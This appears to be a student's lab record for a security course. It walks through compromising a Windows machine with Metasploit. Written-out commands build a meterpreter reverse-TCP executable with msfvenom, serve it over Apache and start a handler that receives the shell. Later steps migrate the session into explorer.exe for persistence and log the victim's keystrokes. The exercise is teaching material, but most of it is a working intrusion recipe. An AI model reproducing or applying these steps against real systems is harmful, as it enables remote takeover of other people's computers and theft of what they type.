 # NAME:Vidhyasri
# REG NO:212222230170

# EX N0 6Compromising-windows-using-Metasploit

# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![image](https://github.com/user-attachments/assets/097d17c5-4e10-4a6b-9b85-b1bab7d4160f)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![image](https://github.com/user-attachments/assets/daaa5557-e3b0-4ad0-b8b4-0db85d4b7e85)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/user-attachments/assets/3abe35a2-6a3c-4f99-83f2-454ba8c08041)

Start apache server sudo systemctl apache2 start
![image](https://github.com/user-attachments/assets/0c8393b4-70e6-4aa6-bb26-2bc5e59bb1fb)

Check the status of apache2
![image](https://github.com/user-attachments/assets/46d8137b-302c-47ff-b99c-16be37e06e62)

Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole. 87b2-3ede-4fb4-ad00-07eff0c29eec) Starting a command and control Server use multi/handler

![image](https://github.com/user-attachments/assets/c409

set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/user-attachments/assets/c0b040de-1a27-4013-a349-40a4dda9576e)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/user-attachments/assets/f2cc50cc-8dee-43fd-b815-7408c4e818b5)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/user-attachments/assets/1e718458-6c6d-4e99-adac-3769ad3a5dc9)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/user-attachments/assets/5a30eef4-522c-468f-9a88-ab5534ca4de4)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/178560e4-1741-4036-9e60-783728362fda)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/user-attachments/assets/8a307ebd-e45c-4d6a-8f29-63471bbe6f94)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
